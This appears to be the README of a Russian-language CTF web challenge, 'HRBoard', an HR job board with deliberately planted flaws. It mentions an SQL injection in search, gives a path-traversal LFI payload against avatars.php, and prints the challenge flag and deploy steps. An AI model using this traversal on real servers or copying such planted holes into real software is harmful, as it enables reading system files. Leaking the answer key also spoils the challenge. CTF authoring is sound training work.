 # HRBoard

Доска объявлений для HR. На главной странице поисковая строка - логика поиска содержит SQL-мнъекцию, которая должна находиться с пол тычка
В самой базе данных ничего нет

Уязвимость можно обнаружить при изучении того, как отображаются анкеты:
```
<div class="card-body">
    <h5 class="card-title">
        David Brown
    </h5>
    
    <p class="card-text">
        Job Description: DevOps Engineer - Collaborate with development and operations teams to implement CI/CD pipelines, automate processes, and improve system reliability.
    </p>

    <img src="/avatars.php?avatar=4.png&return_image=true" style="width:200px; height:200px;">
    
    <p class="card-text">
        Salary waiting: 787 $
    </p>
    
</div>
```

Есть скрипт avatars.php, отвечающий за рендеринг автатарок из объявлений. Он подвержен LFI по URI
```
/avatars.php?avatar=../../../../../etc/flag.txt&return_image=true
```

Чтобы LFI эксплуатировалась менее очевидно - обязателен параметр return_image (о его наличии можно догадаться при изучении кода страницы)


### Flag
```
tqlCTF{y0u_must_f1nd_4ll_vulns_f0r_3v3ry_4ppl1c4t10n}
```

### Deploy

```
docker-compose up
```

Доступ к таску через порт 8080